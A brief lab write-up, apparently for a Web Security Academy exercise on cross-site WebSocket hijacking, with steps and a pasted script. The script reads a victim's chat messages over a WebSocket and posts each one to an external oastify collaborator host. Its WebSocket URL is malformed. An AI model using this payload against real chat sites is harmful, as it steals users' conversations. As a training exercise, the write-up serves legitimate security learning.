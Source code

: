 
1. Access the webchat;
2. Send a message;
3. Verify that any CSRF tokens are enable;

![](/static/img/Pasted_image_20231127173005.png)
4. Go to exploit server and paste the following code;

```javascript

<script> var ws = new WebSocket('wss://https://0ae300c804267ecd80bbfd92007b00c3.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://q5wtjfil76nxb2u7l75ewjuyyp4gs6gv.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>

```